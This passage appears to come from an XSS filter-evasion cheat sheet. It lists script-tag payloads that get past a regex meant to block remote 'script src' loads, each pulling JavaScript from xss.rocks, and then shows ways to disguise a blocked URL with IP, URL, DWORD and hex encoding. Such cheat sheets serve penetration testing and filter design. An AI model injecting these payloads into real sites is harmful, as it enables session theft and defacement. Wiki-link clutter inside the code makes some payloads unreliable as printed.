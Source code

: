 If you are performing [[_content/dictionary#X|XSS]] on sites that allow <[[_content/dictionary#S|SCRIPT]]> but don't allow \<script src... due to a regex filter that does /\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i (This is an important one, because this regex has been seen in the wild):
<SCRIPT =">" [[_content/dictionary#S|SRC]]="httx://xss.rocks/xss.js"></SCRIPT>

Another [[_content/dictionary#X|XSS]] to evade the same filter: /\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i:
<[[_content/dictionary#S|SCRIPT]] a=">" '' [[_content/dictionary#S|SRC]]="httx://xss.rocks/xss.js"></SCRIPT>

Yet another [[_content/dictionary#X|XSS]] that evades the same filter: /\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i
Generally, we are not discussing mitigation techniques, but the only thing that stops this XSS example is, if you still want to allow <[[_content/dictionary#S|SCRIPT]]> tags but not remote script is a state machine (and of course there are other ways to get around this if they allow <SCRIPT> tags), use this:
<SCRIPT "a='>'" [[_content/dictionary#S|SRC]]="httx://xss.rocks/xss.js"></SCRIPT>

And one last [[_content/dictionary#X|XSS]] attack to evade, /\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i using grave accents (again, doesn't work in Firefox):

<[[_content/dictionary#S|SCRIPT]] a=`>` [[_content/dictionary#S|SRC]]="httx://xss.rocks/xss.js"></SCRIPT>

Here's an [[_content/dictionary#X|XSS]] example which works if the regex won't catch a matching pair of quotes but instead will find any quotes to terminate a parameter string improperly:
<[[_content/dictionary#S|SCRIPT]] a=">'>" [[_content/dictionary#S|SRC]]="httx://xss.rocks/xss.js"></SCRIPT>

This [[_content/dictionary#X|XSS]] still worries me, as it would be nearly impossible to stop this without blocking all active content:
<[[_content/dictionary#S|SCRIPT]]>document.write("<[[_content/dictionary#S|SCRI]]");</SCRIPT>[[_content/dictionary#P|PT]] [[_content/dictionary#S|SRC]]="httx://xss.rocks/xss.js"></SCRIPT>

#### [[_content/dictionary#U|URL]] String Evasion¶
The following attacks work if http://www.google.com/ is programmatically disallowed:
##### [[_content/dictionary#I|IP]] Versus Hostname¶
<A [[_content/dictionary#H|HREF]]="http://66.102.7.147/">[[_content/dictionary#X|XSS]]</A>

##### [[_content/dictionary#U|URL]] Encoding¶
<A [[_content/dictionary#H|HREF]]="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">[[_content/dictionary#X|XSS]]</A>

##### [[_content/dictionary#D|DWORD]] Encoding¶
Note: there are other of variations of DWORD encoding - see the [[_content/dictionary#I|IP]] Obfuscation calculator below for more details:
<A [[_content/dictionary#H|HREF]]="http://1113982867/">[[_content/dictionary#X|XSS]]</A>

##### Hex Encoding¶
The total size of each number allowed is somewhere in the neighborhood of 240 total characters as you can see on the second digit, and since the hex number is between 0 and F the leading zero on the third hex quote is not required:
<A [[_content/dictionary#H|HREF]]="http://0x42.0x0000066.0x7.0x93/">[[_content/dictionary#X|XSS]]</A>
